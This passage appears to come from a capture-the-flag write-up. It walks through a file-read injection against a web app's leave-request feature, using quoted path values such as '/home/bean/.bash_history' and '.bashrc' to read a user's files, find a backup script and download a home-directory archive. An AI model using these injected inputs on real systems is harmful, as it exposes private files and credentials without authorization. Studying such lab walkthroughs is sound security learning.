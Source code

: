     - `/' /home/bean/.bash_history '` &#8594; `Failed to retrieve leave requests` &#8594; doesn't exist or I can't read
    - `/' /home/bean/.gitconfig '` &#8594; `Failed to retrieve leave requests` &#8594; doesn't exist or I can't read
    - `/' /home/bean/.bashrc '` &#8594; I can read it
    
    <br>

    this part was quite tedious because I tried dozens of files in the web server without results because I didn't imagine that I could also enter user's home relative paths like `bean`

    the last path was successful and in fact I can read the file:
    ```bash
    # ~/.bashrc: executed by bash(1) for non-login shells.
    # see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
    # for examples

    # ... #

    # custom
    alias backup_home='/bin/bash /home/bean/Documents/backup_home.sh'

    # ... #
    ```

    I read the file with the same method: `/home/bean/Documents/backup_home.sh`
    ```bash
    #!/bin/bash
    mkdir /home/bean/Documents/backup_tmp
    cd /home/bean
    tar --exclude='.npm' --exclude='.cache' --exclude='.vscode' -czvf /home/bean/Documents/backup_tmp/bean_backup.tar.gz .
    date > /home/bean/Documents/backup_tmp/time.txt
    cd /home/bean/Documents/backup_tmp
    tar -czvf /home/bean/Documents/backup/bean_backup_final.tar.gz .
    rm -r /home/bean/Documents/backup_tmp
    ```

    I download the file: `/' /home/bean/Documents/backup/bean_backup_final.tar.gz '`

    the file seems corrupted: `tar xzf bean_backup_final.tar.gz`
    ```
    gzip: stdin: unexpected end of file
    ```
